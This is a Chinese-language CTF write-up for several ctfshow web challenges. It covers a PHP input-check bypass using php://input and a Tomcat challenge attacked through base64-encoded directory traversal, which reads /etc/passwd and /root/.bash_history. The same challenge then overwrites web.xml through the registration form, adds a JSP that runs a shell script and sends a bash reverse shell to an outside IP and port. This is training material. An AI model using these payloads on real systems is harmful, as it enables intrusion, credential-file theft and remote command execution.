# web签到

## #括号闭合

打开题目是一个计算题



输入个1返回



这里试着闭合一下括号

```
a=114)+(0
b=0
c=0
```

但是被警告有0，试着绕一下0，这里用+号就可以绕过了

```
a=114)+(+0
b=+0
c=+0
```

# 一行代码

## #input伪协议妙用

```
echo !(!(include "flag.php")
||
(!error_reporting(0))
||
stripos($_GET['filename'],'.')
||
($_GET['id']!=0)
||
(strlen($_GET['content'])<=7)
||
(!eregi("ctfsho".substr($_GET['content'],0,1),"ctfshow"))
||
substr($_GET['content'],0,1)=='w'
||
(file_get_contents($_GET['filename'],'r') !== "welcome2ctfshow"))?$flag:str_repeat(highlight_file(__FILE__), 0);
```

  这里的话用到了逻辑非的符号，应该是要我们这些条件都不满足然后进行逻辑非运算才会拿到flag，否则就会输出那看看有哪些条件

1. 需要filename里没有`.`
2. content值的长度要大于7
3. content的第一个字符需要是w，然后才能和`ctfsho`拼接满足eregi的正则
4. content的第一个字符不能为w，用大写的W就可以
5. 让file_get_contnets读取的内容为welcome2ctfshow`，就会输出$flag

这里的话前面几个条件都很好满足，但是最后一个就需要让返回值为`welcome2ctfshow`，这里的话就可以用到伪协议`php://input`



在 `file_get_contents()` 函数中传入 `php://input` 时，如果我们post传入一个字符串，这个字符串会作为post数据传入服务器，然后结合`php://input`去进行读取这个原始的post数据，也就是我们传入的字符串

可以先在本地测试一下

在web目录中写一个php文件

```php
<?php
$a = file_get_contents($_GET['a']);
echo $a;
?>
```

在放一个txt文件，内容是123，然后访问并传入/1.php?a=1.txt



我们试一下`php://input`，抓包后传入

```
GET ?a=php://input
POST 12354
```

在响应包中看到12354被返回，所以是可以做的，那我们的payload就是



# 登陆不了

## #任意文件读取和反弹shell

一个flagshop



有注册和登录口但是注册成功之后登不进去，测了一下xss和sql之后都会显示用户名不合法



后来看到验证码一直没变，看一下验证码的路径


解码后是c81e728.jpg，猜测这里存在任意文件读取，尝试读取/etc/passwd



应该是需要相对路径，做一个目录穿越，还要记得编码

```
../../../../../../../etc/passwd
base64
Li4vLi4vLi4vLi4vLi4vLi4vLi4vZXRjL3Bhc3N3ZA==
```



试着看看能不能读到flag，但是后面发现不是这个文件名，就有点复杂了

先看一下历史命令记录

```
../../../../../../../../../root/.bash_history
base编码
Li4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vcm9vdC8uYmFzaF9oaXN0b3J5
```



确定是tomcat，然后也看到了当前的路径

java的题，直接就尝试读web.xml,classes等文件

- 先读web.xml，在WEB-INF路径下



继续读取pom.xml



发现/lib/tiny-framework-1.0.1.jar，后面的就完全看不懂了，贴师傅的文章吧

[[CTFSHOW-日刷-摆烂杯-登陆不了-tomcat/jsp](https://www.cnblogs.com/aninock/p/15830941.html)]



之后就是在注册页面进行文件写入，文件保存路径是当前路径calsses的上一级，也就是Java默认网站目录WEB-INF

我们可以在这里重写web.xml来访问我们想访问的路径

```
payload
username=web.xml&password=<?xml%20version%3d"1.0"%20encoding%3d"UTF-8"?>%20<web-app%20version%3d"3.0"%20%20%20%20%20%20%20%20%20%20xmlns%3d"http://java.sun.com/xml/ns/javaee"%20%20%20%20%20%20%20%20%20%20xmlns:xsi%3d"http://www.w3.org/2001/XMLSchema-instance"%20%20%20%20%20%20%20%20%20%20xsi:schemaLocation%3d"http://java.sun.com/xml/ns/javaee%20%20%20%20%20%20%20%20%20%20http://java.sun.com/xml/ns/javaee/web-app_3_0.xsd">%20%20%20<display-name></display-name>%20%20%20%20%20<filter>%20%20%20%20%20%20%20%20%20<filter-name>routerFilter</filter-name>%20%20%20%20%20%20%20%20%20<filter-class>com.ctfshow.filter.impl.RouterFilterImpl</filter-class>%20%20%20%20%20</filter>%20%20%20%20%20<filter-mapping>%20%20%20%20%20%20%20%20%20<filter-name>routerFilter</filter-name>%20%20%20%20%20%20%20%20%20<url-pattern>/404.html</url-pattern>%20%20%20%20%20%20%20%20%20<url-pattern>/s/*</url-pattern>%20%20%20%20%20%20%20%20%20<dispatcher>REQUEST</dispatcher>%20%20%20%20%20</filter-mapping>%20<servlet>%20%20%20<servlet-name>ctfshow</servlet-name>%20%20%20<jsp-file>/WEB-INF/1.jsp</jsp-file>%20%20%20</servlet>%20%20%20<servlet-mapping>%20%20%20<servlet-name>ctfshow</servlet-name>%20%20%20<url-pattern>/ctfshow</url-pattern>%20%20%20</servlet-mapping>%20%20</web-app>
```





然后写入执行bash脚本的jsp

```
<% java.lang.Runtime.getRuntime().exec("sh /home/apache-tomcat-8.5.45/webapps/ROOT/WEB-INF/1.sh");%>
```

写入反弹shell的bash脚本

```
bash -i >& /dev/tcp/156.238.233.87/2333 0>&1
```

注意改下ip端口

没弹成功，不知道为啥监听端没收到，最后还是在wp里面拿到flag路径进行读取的

# 黑客网站



页面有重复字符串`tyro s4qw s3mm bubg jqje 46nc v35j aqjg eb3n qiuf 23ij oj4z wasx ohyd onion`



提示不用扫描也不用渗透

搜索了一下这个onion

**.onion**是一个用于在Tor网络上寻址特殊用途的顶级域后缀。这种后缀不属于实际的域名，也并未收录于域名根区中。但只要安装了正确的代理软件，如类似于浏览器的网络软件，即可通过Tor服务器发送特定的请求来访问.onion地址。使用这种技术可以使得信息提供商与用户难以被中间经过的网络主机或外界用户所追踪。、

用某葱访问这个.onion站点应该就可以了

# 登陆不了_Revenge

跟上面那个一样的页面，还是一样有任意文件读取的



jar包不会进行反编译，我直接摘包子的源代码了

```java
/*RouterConfig.class*/
package com.ctfshow.config;

import java.io.BufferedInputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.InputStream;
import java.util.Properties;

/* loaded from: tiny-framework-1.0.1.jar:com/ctfshow/config/RouterConfig.class */
public class RouterConfig {
    private static Properties controllerProp;
    private static Properties methodProp;
    private static final String CONTROLLER = "/../config/controller.properties";
    private static final String METHOD = "/../config/method.properties";

    public static String getController(String key) {
        String path = RouterConfig.class.getResource("/").getPath();
        if (controllerProp == null || controllerProp.isEmpty()) {
            controllerProp = new Properties();
            try {
                InputStream InputStream = new BufferedInputStream(new FileInputStream(new File(String.valueOf(path) + CONTROLLER)));
                controllerProp.load(InputStream);
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
        String value = controllerProp.getProperty(key);
        return value;
    }

    public static String getMethod(String key) {
        String path = RouterConfig.class.getResource("/").getPath();
        if (methodProp == null || methodProp.isEmpty()) {
            methodProp = new Properties();
            try {
                InputStream InputStream = new BufferedInputStream(new FileInputStream(new File(String.valueOf(path) + METHOD)));
                methodProp.load(InputStream);
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
        String value = methodProp.getProperty(key);
        return value;
    }
}
```

重点关注这两个属性

```
 private static final String CONTROLLER = "/../config/controller.properties";
 private static final String METHOD = "/../config/method.properties";
```

- 声明了两个静态属性 `controllerProp` 和 `methodProp`，用于存储 `controller.properties` 和 `method.properties` 文件的配置。

那我们继续读取文件

- /config/controller.properties

```
s=com.ctfshow.controller.Index
errorController=com.ctfshow.controller.ErrorPage
index=com.ctfshow.controller.Index
v=com.ctfshow.controller.Validate
```

- /config/method.properties

```
d=doIndex
errorMethod=showErrorPage
index=doIndex
c=getCaptcha
reg=doReg
login=doLogin
main=doMain
```

然后找一下index控制器

```
../../../WEB-INF/classes/com/ctfshow/controller/Index.class
```

做到这我才发现这道题其实和上面的是一样的只不过修复了一个非预期做法
